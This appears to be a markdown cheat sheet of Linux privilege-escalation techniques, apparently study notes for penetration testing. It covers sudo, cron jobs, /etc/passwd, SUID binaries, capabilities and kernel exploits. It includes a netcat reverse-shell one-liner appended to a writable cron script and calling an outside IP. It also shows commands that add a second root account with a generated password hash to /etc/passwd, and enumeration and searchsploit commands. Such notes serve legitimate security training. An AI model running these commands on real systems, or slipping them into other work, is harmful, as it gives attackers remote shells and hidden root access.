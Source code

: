 ## su, sudo
becoming root user (need credential)
```
su - root
```

with sudo
```
sudo -i
```

### Abusing Cronjob

inspecting the cron job
```
grep "CRON" /var/log/syslog
```

if all users have w permission on scripts, insert a reverse shell
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.x.x 1234 >/tmp/f" >> SCRIPT_FILE
```

## Abusing Password Authentication
check world-writable permission
```
ls -lah /etc/passwd
```

create password hash
```
openssl passwd w00t
```

echo
```
echo "root2:HASH:0:0:root:/root:/bin/bash" >> /etc/passwd
```

login user as root2
```
su root2
```

## Abusing Setuid Binaries and Capabilities
find SUID program
```
find / -perm -u=s -type f 2>/dev/null
```

enumerating capabilities
```
/usr/sbin/getcap -r / 2>/dev/null
```

check the GTFOBins
```
https://gtfobins.github.io/
```

## Abusing Sudo
inspecting sudo permisiions
```
sudo -l
```

example
```
joe@debian-privesc:~$ sudo -l
[sudo] password for joe: 
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

crontab, tcpdump, apt-get utilities are llisted

tcpdump is blocked by apparmor

check the GTFOBins
```
https://gtfobins.github.io/
```

## Exploiting Kernel Vulnerabilities
information on the system
```
cat /etc/issue
uname -r
arch
```

searchsploit
```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"
```